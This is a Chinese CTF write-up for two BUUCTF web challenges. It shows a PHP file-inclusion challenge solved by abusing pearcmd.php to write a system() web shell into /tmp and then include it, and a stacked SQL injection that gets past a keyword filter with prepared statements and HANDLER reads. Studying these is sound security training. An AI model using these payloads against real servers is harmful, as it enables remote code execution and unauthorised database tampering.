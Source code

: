 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//Can you get shell? RCE via LFI if you get some trick,this question will be so easy!
if(!preg_match("/base64|rot13|filter/i",$_GET['file']) && isset($_GET['file'])){
    include($_GET['file'].".php");
}else{
    die("Hacker!");
}
```

include 限制了文件后缀, 尝试 data 协议失败, 估计是 php.ini 配置关了 `allow_url_include`

找了好久发现 p 牛的文章

[https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

刚好 buuctf 的靶机是用 docker 搭的, 猜测默认环境下应该也会有 pearcmd.php

根据文章所说, docker php 环境下 `register_argc_argv` 默认为 `On`, 也就是说我们可以通过 query-string 来控制 `$_SERVER['argv']`, 即执行 pearcmd.php 所需要的参数

payload 如下

```
/index.php?file=/usr/local/lib/php/pearcmd&+config-create+/<?=system($_GET[1])?>+/tmp/hello.php
```

p 牛文章里的 payload 把 file 写到后面的位置了, 不过原理差不多, file 以及后面的内容加上构造的 php 代码都会被写进 /tmp/hello.php 中

需要注意参数从 `$_SERVER['argv'][1]` 开始, 因为 `$_SERVER['argv'][0]` 的值就是命令本身 (pearcmd.php)

最后包含 /tmp/hello

```
http://e8837fc4-0abb-444f-b625-f9ed5b42ec58.node4.buuoj.cn:81/?file=/tmp/hello&1=cat /flag
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031807768.png)

### multiSQL

堆叠注入, 过滤了 select insert update delete

使用预编译查询绕过, 查表也可以用 handler 语句

```sql
';set @a=concat("upda","te score set listen=999");prepare st from @a;execute st;handler score open;handler score read next;handler score close;
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031811315.png)

最后访问 verify.php 得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031811004.png)
